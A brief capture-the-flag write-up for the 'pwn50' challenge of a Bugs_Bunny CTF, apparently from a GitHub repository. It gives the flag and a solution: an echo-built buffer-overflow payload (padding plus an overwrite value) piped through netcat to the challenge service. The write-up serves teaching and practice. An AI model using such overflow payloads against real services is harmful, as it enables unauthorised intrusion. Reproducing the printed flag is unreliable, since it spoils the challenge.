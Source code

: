 @tnmch
-------------------------------------------------

pwn50 : 50pts

flag :Bugs_Bunny{lool_cool_stuf_even_its_old!!!!!} flag updated

------------------------------------------------

nc server_ip 5251 

solution :
echo -ne "bugAAAAAAAAAAAAAAAAAAAAA\xed\xac\xef\x0d" > /tmp/pwn50

(cat /tmp/pwn50;cat - )| nc server_ip 5251

![capture d ecran 2017-07-23 a 11 58 21 pm](https://user-images.githubusercontent.com/7364615/28503221-d80dd2d2-7002-11e7-823d-54181e721ade.png)

